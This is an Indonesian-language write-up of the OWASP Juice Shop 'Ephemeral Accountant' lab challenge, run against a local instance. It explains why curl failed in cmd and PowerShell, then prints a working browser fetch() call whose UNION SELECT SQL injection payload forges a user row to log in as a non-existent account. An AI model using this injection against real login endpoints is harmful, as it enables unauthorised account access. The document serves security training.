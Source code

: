 ## Challenge 6: Ephemeral Accountant

### 1. [Soal]

Tantangan ini menuntut kita untuk login sebagai pengguna yang tidak ada (`acc0unt4nt@juice-sh.op`) tanpa pernah mendaftarkannya. Pengguna ini harus "diciptakan" secara sementara hanya selama proses login.

### 2. [Link resource untuk latihan.]

`http://127.0.0.1:3000/`

### 3. Jawaban + bukti

#### Step-by-step yang sudah dicoba

1.  **Identifikasi Target:** Targetnya adalah endpoint API login: `POST /rest/user/login`. Tujuannya adalah menyuntikkan SQL melalui body JSON dari permintaan ini.

2.  **Strategi:** Menggunakan injeksi SQL berbasis `UNION SELECT` di dalam field `email`. Payload akan dirancang untuk membuat baris pengguna palsu yang lengkap di dalam hasil kueri, yang akan diterima oleh aplikasi sebagai pengguna yang valid.

3.  **Percobaan 1: `curl` di Command Prompt (cmd.exe) - GAGAL**
    -   Sebuah perintah `curl` satu baris dibuat untuk mengirim payload.
    -   **Hasil:** Gagal dengan error `SyntaxError: ... is not valid JSON` dan `curl: (3) URL rejected`.
    -   **Alasan:** Command Prompt Windows memiliki aturan penanganan kutip (`'` dan `"`) yang rumit dan berbeda dari Linux, menyebabkan string JSON menjadi rusak saat diinterpretasikan.

4.  **Percobaan 2: `curl` di PowerShell - GAGAL**
    -   Percobaan dipindahkan ke PowerShell, yang diharapkan memiliki penanganan kutip yang lebih baik. Beberapa variasi perintah dicoba.
    -   **Hasil:** Gagal dengan berbagai error seperti `Cannot convert...` (untuk `-H`) dan `parameter name 'X' cannot be found` (untuk `-X`).
    -   **Alasan:** `curl` di PowerShell hanyalah alias untuk `Invoke-WebRequest`, yang memiliki sintaks parameter yang sama sekali berbeda (`-Headers @{...}` dan `-Method POST`). Mencoba menggunakan sintaks `curl` standar tidak akan berhasil.

5.  **Percobaan 3: Browser Console `fetch` - BERHASIL**
    -   Karena kegagalan berulang di command line, metode diganti dengan menggunakan fungsi `fetch` di dalam Developer Tools Console browser. Metode ini menghilangkan semua masalah terkait *shell quoting*.
    -   **Kode Berhasil:**
        ```javascript
        fetch('http://127.0.0.1:3000/rest/user/login', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
                "password": "test1234"
            })
        });
        ```
    -   **Hasil:** Perintah berhasil dieksekusi. Setelah me-refresh halaman, login berhasil sebagai `acc0unt4nt@juice-sh.op`.

#### Bukti Screenshot

#### Catatan hasil percobaan

-   **Berhasil/Gagal:** Gagal total saat menggunakan `curl` di cmd.exe dan PowerShell. Berhasil dengan mudah menggunakan `fetch` di browser console.
-   **Alasan:** Kompleksitas *escaping* tanda kutip di dalam string JSON yang dikirim sebagai argumen command line sangat rentan terhadap kesalahan. Setiap shell (cmd, powershell, bash) memiliki aturannya sendiri. Browser, sebagai lingkungan JavaScript asli, dapat menangani objek dan string JSON secara sempurna tanpa masalah interpretasi.
